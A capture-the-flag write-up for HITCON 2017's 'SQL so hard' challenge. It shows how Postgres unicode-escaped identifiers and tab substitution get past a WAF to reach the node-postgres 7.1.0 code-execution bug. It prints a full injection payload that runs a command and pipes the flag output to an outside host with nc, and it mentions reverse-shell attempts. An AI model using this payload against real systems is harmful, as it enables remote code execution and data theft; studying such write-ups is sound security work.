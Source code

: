 # [SQL so hard](https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2017/sql-so-hard)

*[HITCON ctf 2017](https://ctf2017.hitcon.org)*

## tl;dr

`SELECT 1 FROM "\\'"` can be written as `SELECT 1 FROM U&"!005c'" UESCAPE '!'`. Change all spaces to tabs and
the WAF will be happy.

Our final exploit payload for the `username` field is:

```
','')\tON\tCONFLICT\t(username)\tDO\tUPDATE\tSET\tusername=''\tRETURNING\t1\tAS\tU&"!005c!0027+(r=process.mainModule.require,l=!0022!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022!002freadflag|nc!0020123.123!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022.123.123!00201234!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(r(!0022child_process!0022).execSync(l))]!002f!002f"\tUESCAPE\t'!';
```

## details

- be me
- know nothing about mysql
- know nothing about [`max_allowed_packet`](https://dev.mysql.com/doc/refman/5.7/en/packet-too-large.html)
- set up local env with postgres, node and `npm i pg@7.1.0` without mysql
- reproduce the [original vulnerability](https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability) (given as hint)
- spend hours researching unicode combining characters and diacritics
- find out unicode is not going to help
- see that we **definitely need** backslashes in the field name to exploit the vulnerable javascript literal
- start digging into `node pg`-s query parser
- learn that the field names are not parsed on the client side but are reflected from the server
- consult the PostgreSQL documentation
- find interesting [unicode quoted identifiers](https://www.postgresql.org/docs/9.5/static/sql-syntax-lexical.html#SQL-SYNTAX-IDENTIFIERS) `U&"!005c'" UESCAPE '!'`
- assemble query from `returning` clause, tabs and the above literals
- celebrate the RCE
- find out that `require` is not defined in `Function("require")()` calls in node modules
- use `process.mainModule.require`
- spend another half an hour wondering why do all the reverse shells close the connection immediately
- give up and just execute `ls /|nc xxx`
- find and execute `/readflag|nc xxx`
- `hitcon{if_you_dont_know_why_plz_check_mysql_max_allowed_packet}`
- submit, be surprised about what might the flag possibly mean and move on

